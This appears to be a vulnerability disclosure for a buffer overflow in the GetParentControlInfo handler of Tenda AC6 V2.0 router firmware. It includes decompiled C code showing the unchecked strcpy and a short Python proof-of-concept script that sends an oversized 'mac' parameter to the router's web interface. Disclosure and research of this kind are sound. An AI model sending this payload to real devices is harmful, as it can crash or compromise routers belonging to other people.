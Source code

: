 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "GetParentControlInfo"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the `GetParentControlInfo` function, the user-supplied MAC address is obtained via `websGetVar`. However, this input is not validated, and it's directly copied into `pc_info->mac_addr` using `strcpy`. The allocated space for `pc_info` via `malloc` is only `0x254` bytes. Consequently, this leads to a **buffer overflow**.

```c
mac_addr = websGetVar(wp, "mac", byte_519A28);//get mac value
pc_info = (parent_control_info *)malloc(0x254u);
memset(pc_info, 0, sizeof(parent_control_info));
strcpy((char *)pc_info->mac_addr, mac_addr);//overflow
```

![image-20250614161657528](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614161657528.png)

poc

```python
import requests
def send_payload(url, payload):
    params={'mac':payload}
    response = requests.get(url, params=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x2048+b"\xef\xbe\xad\xde"
url="http://192.168.1.1/goform/GetParentControlInfo"
send_payload(url, payload)   
```

![image-20250614171717338](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614171717338.png)

